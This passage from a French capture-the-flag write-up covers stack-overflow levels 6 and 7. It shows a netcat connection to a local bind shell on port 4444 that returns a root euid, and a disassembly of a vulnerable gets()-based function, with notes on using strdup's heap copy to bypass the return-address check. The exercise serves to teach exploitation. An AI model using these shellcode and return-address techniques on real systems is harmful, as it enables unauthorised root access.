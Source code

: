 Le programme freeze car le shellcode est le même que précédemment et écoute sur le port 4444 :

```bash
$ nc 127.0.0.1 4444 -v
127.0.0.1: inverse host lookup failed: Host name lookup failure
(UNKNOWN) [127.0.0.1] 4444 (?) open
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```

## Level 7

On reste quasiment dans la même configuration sauf qu'en plus ici un `strdup()` est appelé sur notre input ce qui a pour effet de copier la chaine à un emplacement dans le heap.

Comme rien n'est exécuté après le `strdup()` cela signifie que `eax` contiendra l'adresse du buffer copié (car `eax` sert de valeur de retour en assembleur).

```nasm
getpath (int32_t arg_4h);
; var char *src @ ebp-0x4c
; var int32_t var_ch @ ebp-0xc
; arg int32_t arg_4h @ ebp+0x4
; var int32_t var_4h @ esp+0x4
0x080484c4      push ebp
0x080484c5      mov ebp, esp
0x080484c7      sub esp, 0x68
0x080484ca      mov eax, str.input_path_please: ; 0x8048620
0x080484cf      mov dword [esp], eax ; const char *format
0x080484d2      call printf        ; sym.imp.printf ; int printf(const char *format)
0x080484d7      mov eax, dword [stdout] ; obj.stdout__GLIBC_2.0
                                   ; 0x8049780
0x080484dc      mov dword [esp], eax ; FILE *stream
0x080484df      call fflush        ; sym.imp.fflush ; int fflush(FILE *stream)
0x080484e4      lea eax, [src]
0x080484e7      mov dword [esp], eax ; char *s
0x080484ea      call gets          ; sym.imp.gets ; char *gets(char *s)
0x080484ef      mov eax, dword [arg_4h]
0x080484f2      mov dword [var_ch], eax
0x080484f5      mov eax, dword [var_ch]
0x080484f8      and eax, 0xb0000000
0x080484fd      cmp eax, 0xb0000000
0x08048502      jne 0x8048524
0x08048504      mov eax, str.bzzzt___p ; 0x8048634
0x08048509      mov edx, dword [var_ch]
0x0804850c      mov dword [var_4h], edx
0x08048510      mov dword [esp], eax ; const char *format
0x08048513      call printf        ; sym.imp.printf ; int printf(const char *format)
0x08048518      mov dword [esp], 1 ; int status
0x0804851f      call _exit         ; sym.imp._exit ; void _exit(int status)
0x08048524      mov eax, str.got_path__s ; 0x8048640
0x08048529      lea edx, [src]
0x0804852c      mov dword [var_4h], edx
0x08048530      mov dword [esp], eax ; const char *format
0x08048533      call printf        ; sym.imp.printf ; int printf(const char *format)
0x08048538      lea eax, [src]
0x0804853b      mov dword [esp], eax ; const char *src
0x0804853e      call strdup        ; sym.imp.strdup ; char *strdup(const char *src)
0x08048543      leave
0x08048544      ret
```
